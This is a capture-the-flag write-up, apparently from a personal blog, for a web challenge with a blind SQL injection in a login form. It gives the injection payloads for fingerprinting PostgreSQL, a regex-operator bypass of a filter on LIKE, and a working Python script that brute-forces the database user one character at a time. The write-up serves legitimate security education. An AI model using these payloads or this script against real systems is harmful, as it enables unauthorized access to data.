 ```yaml
---
title: "Web: real"
date: "2024-08-03"
tags:
    - sqli
thumbnail: "/assets/img/thumbnail/ascwgs24.png"
---
```



# Description
---
A BBH got a vulnerability in this site but the triager needs POC, The flag will be the db username in UPPERCASE and there's rate limit (1 request per second)

# solution
---
When we start the challange we will see this login page
<img src="/assets/img/ascwgs/login.png">


It's a very very simple page and during my first attempts i noticed that the output can be:
- welcome (status code 200) and this occurs when the login is done successfully
- error (status code 400) and this occurs when the login is failed (wrong creds or wrong syntax)
- filtered and this occurs when using symbols or words which are forbidden

when i tried `username=admin%27--&password=a` i got welcome in response like this
<img src="/assets/img/ascwgs/first.png">

we got the injection point and i see it's a blind sqli.
I was tring to retrieve the data from the tables but there's misunderstanding.
I thought he wants a different user in the same table but it wants the username of the db which is the user connected to database.
and this misunderstanding made me take too much time as i want to get data from users table and the `()` were filtered, so i was in a rabbit hole.

After noticing that we need the db user i starting thinking in a different way.
I want to know the type of data base.
I noticed that the database accepts `--` as comment and refuse `#` and after asking chatgpt i knew that my database now can be `Oracle` or `Postgresql`

After searching about differences i found that there's a table called `all_tables` in oracle corresponds to `information_schema.tables` in postgresql.

I made sure that the db is postgresql using these parameters `username=admin%27union%20select%20null,null%20from%20information_schema.tables--&password=a` and got welcome in the response.

Now i want to get the postgres dbusername.

After searching i found that to get it we use `select current_user`
There may be other ways but this worked with me and was very simple.

Now i want to inject it in the username parameter and this can be done by `admin' and current_user like 'A%'--` this will return welcome if the first character in the current_user is A.

but the problem here is `like` is filtered, so after asking chatgpt i found an alternative which is `admin' and current_user ~ '^A'--` and it has the same functionality.

We should run the same query for all possible characters and for the length of the username.
I created this script to do this job
```py
import requests
import time
import urllib3

urllib3.disable_warnings()
# Base URL and target endpoint
url = "https://real.ascwg-challs.app/login"

# Headers for the request
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://real.ascwg-challs.app",
    "Referer": "https://real.ascwg-challs.app/",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Priority": "u=0, i",
    "Te": "trailers"
}

# Characters to iterate over
characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_0123456789!@#%^&*()-=_+[]{}|;:',.<>?/`~\"\\abcdefghijklmnopqrstuvwxyz"

# Base injection point
base_injection = "admin'AND CURRENT_USER ~ '^"
password = "a"

def bruteforce():
    # Initialize the discovered prefix
    prefix = ""

    # Try to find each character of the username
    while True:
        for char in characters:
            # Replace the placeholder §u§ with the current prefix + char
            current = prefix + char
            injection = base_injection+current+'\'--'
            data = f"username={injection}&password={password}"

            # Send POST request
            response = requests.post(url, headers=headers, data=data, verify=False)

            # Wait for 1 second to respect the rate limit
            time.sleep(1)
            # Check for a successful response
            if response.status_code == 200:
                prefix += char
                print(f"Found: {prefix}")
                break  # Move to the next character


if __name__ == "__main__":
    bruteforce()
```

And ..
<img src="/assets/img/ascwgs/flag3.png">
GG !!